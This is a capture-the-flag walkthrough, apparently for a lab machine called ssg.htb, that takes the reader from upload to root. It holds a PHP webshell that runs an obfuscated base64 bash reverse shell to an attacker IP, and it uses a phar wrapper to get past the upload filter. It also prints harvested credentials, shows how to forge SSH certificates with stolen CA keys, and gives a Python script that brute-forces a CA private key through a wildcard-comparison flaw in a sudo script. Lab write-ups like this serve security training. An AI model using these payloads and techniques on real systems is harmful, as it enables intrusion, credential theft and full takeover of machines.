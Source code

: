 ## Foothold

Create webshell.php

```
<?php system('echo -n YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMDEvOTAwMSAwPiYxJwo= | base64 -d | bash'); ?>
```

Zip the webshell in a zip file (you cannot bypass the filter on the webserver)

Upload the zipfile on the server

Get the zipfile location on the server

```
itrc.ssg.htb/uploads/bd8cd6036fa410858f7b72f6370d005d57995afc.zip
```

Prepare the netcat listener

```
nc -lnvp 9001
```

Run the phar wrapper

```
http://itrc.ssg.htb/?page=phar://uploads/bd8cd6036fa410858f7b72f6370d005d57995afc.zip/revshell
```

---

## www-data

db info

```
$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
```

unzip the big zipfile you find `msainrinstil` creds

```
msainristil:82yards2closeit
```

unzipping other files will give you some rsa keys (we won't use them anyway)

---

## msainristil

In `~/decommission_old_ca` there are the CA keys. We can use them to sign user's keys and login to the box.

I logged in as root on my box and generated a new keypair with a comment.

```
ssh-keygen -C "root@ssg.htb"
```

I put my `id_rsa.pub` key on the box in `/tmp` and then run this command to sign the key with CA's key

```
msainristil@itrc:~/decommission_old_ca$ ssh-keygen -s ca-itrc -I root -n root -V +52w -f /tmp/id_rsa-cert.pub /tmp/id_rsa.pub
```

Then i put `/tmp/id_rsa-cert.pub` on my box and next i logged in to the box as root with this command

```
┌─[✗]─[root@parrot]─[~/.ssh]
└──╼ #ssh root@ssg.htb -i id_rsa -o CertificateFile=./id_rsa-cert.pub
```

---

## zzinter on port 2222

```
ssh zzinter@ssg.htb -i $HOME/.ssh/id_rsa -o CertificateFile=zzinter-cert.pub -p 2222
```

`sudo -l` tell use we can run `/opt/sign_key.sh` as sudo

```
zzinter@ssg:~$ sudo -l
Matching Defaults entries for zzinter on ssg:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bi
n\:/snap/bin,
    use_pty

User zzinter may run the following commands on ssg:
    (root) NOPASSWD: /opt/sign_key.sh
```

The script looks like it's just signing a key using the specified CA.

The decomissioned CA priv key we got access to before doesn't buy us anything. If we try to use it to sign a key, it won't give us access to the machine.

Trying to find other private ssh keys doesn't buy us anything either.

### ca-cert cracking and signing

We read inside the script his line `echo "Error: Use API for signing with this CA."` which we tried before, but we got some kind of error stating that only admin can sign with API.
At this point what we might try to do, is bruteforcing the key. The comparisong is being done using `==`, that means we can use the wildcard `*` to match any character.
e.g. If we provide a key like `-----BEGIN OPENSSH PRIVATE KEY-----*` it is going to match.
The following handmade script will do the trick.

```
#!/usr/bin/python3
import subprocess
import sys

chars = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM0123456789+/=- "
key = "-----BEGIN OPENSSH PRIVATE KEY-----"
ctr = 0

while True:
    if ctr == 0:
        key += "\n"
        print(key)
    if "-----END OPENSSH PRIVATE KEY-----" in key:
        break
    for char in chars:
        f = open("/tmp/temp.txt", "w")
        f.write(key+char+"*")
        f.close()
        command = ["sudo", "/opt/sign_key.sh", "/tmp/temp.txt", "/home/zzinter/.ssh/id_rsa.pub", "support", "support", "1"]
        result = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
        if "Error: Use API for signing with this CA." in result.stdout:
            key += char
            ctr = (ctr + 1) % 70
            break
        elif char == chars[-1]:
            ctr = 0

print(key)
```

We run this script on the target machine and get the CA's private key.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Next we take sign_key.sh on our machine and run it to sign our pubkey

```
./sign_key.sh ca-cert $HOME/.ssh/id_rsa.pub root root_user 1
```

and finally we login as root on the target

```
ssh -p 2222 root@ssg.htb -i $HOME/.ssh/id_rsa -o CertificateFile=id_rsa-ce
rt.pub
```

---
